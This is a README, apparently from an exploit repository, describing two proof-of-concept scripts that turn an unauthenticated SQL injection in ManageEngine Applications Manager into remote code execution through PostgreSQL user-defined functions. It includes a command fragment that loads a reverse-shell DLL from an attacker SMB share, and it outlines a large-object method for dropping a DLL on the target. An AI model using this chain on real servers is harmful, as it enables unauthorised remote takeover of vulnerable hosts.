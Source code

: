 This repository provides two Python-based proof-of-concept (PoC) exploits targeting a critical unauthenticated SQL injection vulnerability in the AMUserResourcesSyncServlet endpoint of ManageEngine Applications Manager (versions 11.0 to <14.0). The backend database for this application is PostgreSQL, which allows the attacker to craft and load a User-Defined Function (UDF) written in C to achieve remote code execution (RCE) on the underlying Windows host.

1. POC_ManageEngine.py – UDF DLL Load via SMB

    Defines a UDF via CREATE FUNCTION ... AS $$\\attacker_ip\share\rev.dll$$

    Triggers a reverse shell by calling the function with target IP/port

    Simple and efficient for SMB-hosted DLL payloads

2. POC_ManageEngine_LO.py – Large Object Injection & Export

    Encodes the reverse shell payload (DLL) into hex

    Injects the binary into PostgreSQL's pg_largeobject table chunk by chunk

    Uses lo_export() to drop the UDF DLL to disk on the target

    Triggers code execution via the exported UDF
